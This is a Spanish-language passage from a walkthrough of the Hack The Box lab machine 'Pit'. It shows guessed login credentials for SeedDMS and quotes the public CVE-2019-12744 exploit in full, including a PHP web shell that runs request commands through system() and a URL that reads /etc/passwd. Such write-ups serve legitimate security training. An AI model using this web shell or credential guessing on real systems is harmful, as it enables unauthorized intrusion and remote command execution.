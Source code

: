 Ahora que tenemos una ruta para hacer cositas 😈, podemos ver si usa algún gestor de contenidos vulnerable y a partir de ahí seguir partiéndolo.
Si nos dirigimos a dms-pit.htb/seeddms51x/seeddms nos topamos con un login.

![imagen](https://user-images.githubusercontent.com/71317374/134779941-3f8b6186-c9c6-4d9b-9048-d7f81f9aebaa.png)

Abajo nos está diciendo que el acceso solo se permite a personal autorizado, y yo no lo soy, así que ya hemos terminado, espero que os haya gustado 😄. 

O nos ponemos un poco blackhat y entramos. Como teníamos un usuario llamado michelle, podríamos probar las credenciales `michelle:michelle` y pa' dentro.

![imagen](https://user-images.githubusercontent.com/71317374/134780028-e7a5a303-5497-4c74-93c2-9988de31b3ea.png)

En efecto, pa' dentro. Vemos una carpeta llamada Docs y una nota llamada 'Upgrade Note'.

![imagen](https://user-images.githubusercontent.com/71317374/134780042-b2b7ecc7-8ad1-4f0f-aad2-bb40e6262448.png)

La nota dice que han actualizado SeedDMS a la versión 5.1.15 por problemas de seguridad, y así ya sabemos qué exploits NO probar, aunque igual funcionan...

![imagen](https://user-images.githubusercontent.com/71317374/134780074-6a3fa968-258e-4998-9f52-e71fce5bbad3.png)

Viendo los exploits disponibles, el que más llama la atención es la RCE, aunque es para una versión anterior. No sé por qué, el exploit funciona, yo creo que la nota ha sido un farol para evitar que los hackeen.

Este es el exploit:

```
# Exploit Title: [Remote Command Execution through Unvalidated File Upload in SeedDMS versions <5.1.11]
# Google Dork: [NA]
# Date: [20-June-2019]
# Exploit Author: [Nimit Jain](https://www.linkedin.com/in/nimitiitk)(https://secfolks.blogspot.com)
# Vendor Homepage: [https://www.seeddms.org]
# Software Link: [https://sourceforge.net/projects/seeddms/files/]
# Version: [SeedDMS versions <5.1.11] (REQUIRED)
# Tested on: [NA]
# CVE : [CVE-2019-12744]

Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```
